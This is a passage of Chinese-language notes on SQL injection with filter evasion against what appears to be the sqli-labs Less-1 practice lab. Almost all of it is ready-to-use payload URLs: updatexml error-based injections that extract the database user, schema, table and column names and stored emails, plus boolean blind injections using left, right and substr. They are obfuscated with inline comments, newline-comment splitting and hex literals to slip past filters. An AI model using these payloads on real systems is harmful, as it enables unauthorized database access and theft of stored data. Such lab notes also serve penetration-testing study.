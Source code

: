 ```
http://172.16.1.157/sql/Less-1/?id=-1' and updatexml(1,concat(0x7e,user(/*!)*/,0x7e/*!)*/,1/*!)*/ -- +
http://172.16.1.157/sql/Less-1/?id=-1' and updatexml(1,concat(0x7e,database(/*!)*/,0x7e/*!)*/,1/*!)*/ -- +
```

库名

```
http://172.16.1.157/sql/Less-1/?id=-1' and updatexml(1,`concat`(0x7e,(select schema_name from %23a%0a information_schema.schemata  limit 1,1/*!)*/,0x7e/*!)*/,1/*!)*/ -- +
```

表名

```
http://172.16.1.157/sql/Less-1/?id=-1' and updatexml(1,`concat`(0x7e,(select table_name from %23a%0a information_schema.tables where table_schema=database(/*!)*/ limit 1,1/*!)*/,0x7e/*!)*/,1/*!)*/ -- +
```

列名

```
http://172.16.1.157/sql/Less-1/?id=-1' and updatexml(1,`concat`(0x7e,(select column_name from %23a%0a information_schema.columns where table_schema=database(/*!)*/ and %23a%0atable_name=0x7573657273 limit 1,1/*!)*/,0x7e/*!)*/,1/*!)*/ -- +
```

查数据

```
http://172.16.1.157/sql/Less-1/?id=-1' and updatexml(1,concat(0x7e,(select email_id from %23a%0a emails limit 1,1/*!)*/,0x7e/*!)*/,1/*!)*/ -- +
```

# 盲注

分布尔盲注和时间盲注来说吧

## 布尔盲注

不让他匹配完整括号对

使用left()或者right()

```
http://172.16.1.157/sql/Less-1/?id=1' and hex(LEFT(user(/*!)*/,1))=%23a%0a72 -- +
http://172.16.1.157/sql/Less-1/?id=1' and hex(right(user(/*!)*/,1))=%23a%0a72 -- +
```

使用substring() substr()

```
http://172.16.1.157/sql/Less-1/?id=1' and hex(SUBSTRING(user(/*!)*/,1,1))=72 -- +
http://172.16.1.157/sql/Less-1/?id=1' and hex(substr(user(/*!)*/,1,1))=72 -- +
```
